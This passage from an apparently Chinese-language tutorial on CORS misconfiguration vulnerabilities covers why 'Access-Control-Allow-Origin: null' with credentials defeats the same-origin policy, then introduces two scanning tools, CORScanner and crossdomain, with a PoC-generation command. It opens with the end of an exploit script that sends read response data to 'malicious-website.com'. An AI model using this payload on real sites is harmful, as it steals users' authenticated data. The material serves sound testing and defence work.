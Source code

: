     function reqListener() {  
    location='malicious-website.com/log?key='+this.responseText;  
    };  
    </script>"></iframe>  
    

  

这就意味着任何配置有`Access-Control-Allow-Origin: null`和`Access-Control-Allow-
Credentials:true`的网站等同于没有浏览器SOP的保护，都可以被其他任意域以这种方式读取内容。

## 4|4CORS漏洞的自动化扫描

  

github上提供了一个关于扫描CORS配置漏洞的脚本  
https://github.com/chenjj/CORScanner  
CORScanner是一个python工具，旨在发现网站的CORS错误配置漏洞。它可以帮助网站管理员和渗透测试人员检查他们针对的域/
URL是否具有不安全的CORS策略。  
![](https://gitee.com/fuli009/images/raw/master/public/20210811182652.png)  
但是这个好像不能扫描特定接口的。

https://github.com/dienuet/crossdomain

![](https://gitee.com/fuli009/images/raw/master/public/20210811182653.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210811182654.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210811182656.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210811182657.png)

Gen Poc

  * python corser.py -poc GET

  

  * ![](https://gitee.com/fuli009/images/raw/master/public/20210811182658.png)

  

PS D:\crossdomain-master> python corser.py -poc GET

  

  ____ ___  ____  ____  _____ ____

 / ___/ _ \|  _ \/ ___|| ____|  _ \

| |  | | | | |_) \\___ \|  _| | |_) |

| |__| |_| |  _ < ___) | |___|  _ <

 \\____\\___/|_| \\_\\____/|_____|_| \\_\    Author: --==dienpv==--

  

  
